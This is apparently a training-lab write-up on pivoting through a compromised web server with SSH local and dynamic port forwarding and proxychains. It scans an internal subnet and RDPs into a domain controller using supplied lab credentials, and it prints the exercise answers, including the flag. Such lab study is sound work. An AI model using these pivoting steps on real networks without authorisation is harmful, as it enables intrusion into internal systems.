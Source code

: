 # Dynamic Port Forwarding with SSH and SOCKS Tunneling

### You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)

```bash
#SSH to 10.129.6.183 with user "ubuntu" and password "HTB_@cademy_stdnt!" 
ssh ubuntu@10.129.6.183  
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:71:4b brd ff:ff:ff:ff:ff:ff
    inet 10.129.6.183/16 brd 10.129.255.255 scope global dynamic ens192
       valid_lft 3491sec preferred_lft 3491sec
    inet6 dead:beef::250:56ff:feb9:714b/64 scope global dynamic mngtmpaddr 
       valid_lft 86400sec preferred_lft 14400sec
    inet6 fe80::250:56ff:feb9:714b/64 scope link 
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:5a:79 brd ff:ff:ff:ff:ff:ff
    inet 172.16.5.129/23 brd 172.16.5.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:5a79/64 scope link 
       valid_lft forever preferred_lft forever
```

3

### Apply the concepts taught in this section to pivot to the internal network and use RDP (credentials: victor:pass@123) to take control of the Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the Desktop.

```bash
nmap -sT -p22,3306 10.129.6.183  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-25 11:37 EST
Nmap scan report for 10.129.6.183 (10.129.6.183)
Host is up (0.27s latency).

PORT     STATE  SERVICE
22/tcp   open   ssh
3306/tcp closed mysql
```

Executing the Local Port Forward

```bash
ssh -L 1234:localhost:3306 ubuntu@10.129.6.183
#Confirming Port Forward with Netstat
#in our kali
netstat -antp | grep 1234
#or
nmap -v -sV -p1234 localhost
```

Now for Enabling Dynamic Port Forwarding with SSH

```bash
ssh -D 9050 ubuntu@10.129.6.183
```

To inform proxychains that we must use port 9050, we must modify the proxychains configuration file located at `/etc/proxychains.conf`. We can add `socks4 127.0.0.1 9050` to the last line if it is not already there.

<pre class="language-bash"><code class="lang-bash">#Using Nmap with Proxychains
ifconfig #this on the target
<strong>proxychains nmap -v -sn 172.16.5.1-200 #this on our local machine
</strong>#[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.5.19:80  ...  OK
#Enumerating the Windows Target through Proxychains
proxychains nmap -v -Pn -sT 172.16.5.19
#Discovered open port 3389/tcp on 172.16.5.19
proxychains nmap -Pn -p3389 -sV -sC 172.16.5.19
proxychains nmap -Pn -p3389 -sV -sC 172.16.5.19
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.inlanefreight.local
| Not valid before: 2024-02-24T16:32:39
|_Not valid after:  2024-08-25T16:32:39
|_ssl-date: 2024-02-25T16:55:47+00:00; +6s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: INLANEFREIGHT
|   NetBIOS_Domain_Name: INLANEFREIGHT
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: inlanefreight.local
|   DNS_Computer_Name: DC01.inlanefreight.local
|   Product_Version: 10.0.17763
|_  System_Time: 2024-02-25T16:55:42+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
</code></pre>

Using xfreerdp with Proxychains

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123 /cert-ignore /dynamic-resolution
N1c3Piv0t
```
